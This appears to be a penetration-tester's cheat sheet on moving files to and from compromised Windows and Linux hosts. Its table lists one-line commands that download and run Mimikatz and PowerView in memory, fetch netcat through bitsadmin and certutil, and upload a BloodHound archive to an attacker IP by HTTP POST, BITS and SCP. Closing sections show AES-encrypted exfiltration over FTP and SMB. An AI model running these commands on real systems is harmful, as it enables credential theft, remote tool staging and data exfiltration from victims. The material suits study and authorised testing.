 cd C:\Windows\Temp; mkdir <...>; cd <...>

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 \| iex` | Alias iex |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| iex` | Basic Parser |
| `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))` | Encoding b64 |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | Download using import |
| `certutil.exe -f -urlcache -split http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | Download |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

Windows -> Linux
Linux -> `impacket-smbserver smbFolder $(pwd) -smb2support`
Windows -> `copy <file> \\<ip>\smbFolder\<file>`


Windows via secure way

Windows Encript file

``Powershell
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption.ps1 -Mode Encrypt -Key "s3cure-and-unique-p4ssw0rd" -Path .\scan-results.txt
``

Open FTP service on linux

``bash
pip3 install pyftpdlib
python3 -m pyftpdlib --user=pentester --password=s3cure-and-unique-p4ssw0rd -w
``

Windows transfer file via ftp
``
ftp
ftp> open <ip> <port>
User (10.10.14.2:(none)): <user>
Password: <password>
ftp> put scan-results.txt.aes
``

To decrypt the file again

``bash
¬ pwsh
PS> Import-Module Invoke-AESEncryption.ps1
PS> Invoke-AESEncryption -Mode Decrypt -Key "s3cure-and-unique-p4ssw0rd" -Path ./scan-results.txt.aes
``
